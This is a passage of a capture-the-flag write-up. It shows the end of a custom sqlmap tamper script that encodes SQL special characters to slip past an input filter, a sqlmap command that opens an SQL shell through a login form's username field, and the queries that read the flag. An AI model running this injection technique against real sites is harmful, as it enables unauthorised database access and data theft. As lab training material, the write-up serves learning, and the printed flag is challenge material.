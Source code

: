 ```python
        '/': '{a.MALICIOUS_CHARS[3]}',
        '*': '{a.MALICIOUS_CHARS[4]}',
        '+%': '{a.MALICIOUS_CHARS[5]}',  # '+%'
        '-': '{a.MALICIOUS_CHARS[6]}',
        ';': '{a.MALICIOUS_CHARS[7]}',
        '#': '{a.MALICIOUS_CHARS[8]}',
        '(': '{a.MALICIOUS_CHARS[9]}',
        ')': '{a.MALICIOUS_CHARS[10]}',
        ' ': '{a.MALICIOUS_CHARS[11]}',
        ',': '{a.MALICIOUS_CHARS[12]}'
    }

    # Perform replacements in the payload
    if payload:
        for original_char, placeholder in mapping.items():
            payload = payload.replace(original_char, placeholder)
        payload += "{a}"

    return payload
```
> I know there is a better way to write this script, but when I was solving this challenge, this was the first thing that came to mind.


Now, we will use `sqlmap` on the target:
```bash
sqlmap -u "<URL>" --data="username=admin&password=1234" --method=POST --dbms="mariadb" --tamper=custom_tamper.py -p username --sql-shell
```

Once you have the SQL shell, you can run these commands to get the flag:
```bash
sql-shell> use prepared_db;
sql-shell> select * from flags;
```

Then you will get the flag:
```
uoftctf{r3m3mb3r_70_c173_y0ur_50urc35_1n_5ql_f0rm47}
```